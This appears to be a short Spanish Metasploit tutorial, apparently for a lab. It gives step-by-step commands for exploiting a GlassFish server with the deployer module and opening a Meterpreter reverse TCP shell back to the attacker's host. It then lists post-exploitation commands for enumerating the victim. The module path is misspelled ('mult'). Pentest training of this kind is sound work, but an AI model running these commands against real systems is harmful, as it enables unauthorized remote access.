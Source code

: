 Abrimos primero 'msfconsole'

Seleccionamos el módulo con 'use exploit/mult/http/glassfish_deployer'

Buscamos las opciones con 'show options'

Establecemos la dirección IP de la máquina víctima (RHOST), el tipo de payload que deseas utilizar (PAYLOAD)
y tu propia dirección IP (LHOST) para la conexión inversa:

set RHOST 192.168.1.144

set PAYLOAD windows/meterpreter/reverse_tcp

set LHOST 192.168.1.143

Ejecutamos el exploit con: 'exploit'

Una vez dentro podemos ejecutar:

-sysinfo: Para obtener información sobre el sistema operativo de la máquina víctima.

-getuid: Para obtener el identificador del usuario actual en la máquina víctima.

-ipconfig: Para obtener información sobre la configuración de red de la máquina víctima(depende del sistema operativo de la víctima).

-ps: Para listar los procesos en ejecución en la máquina víctima.
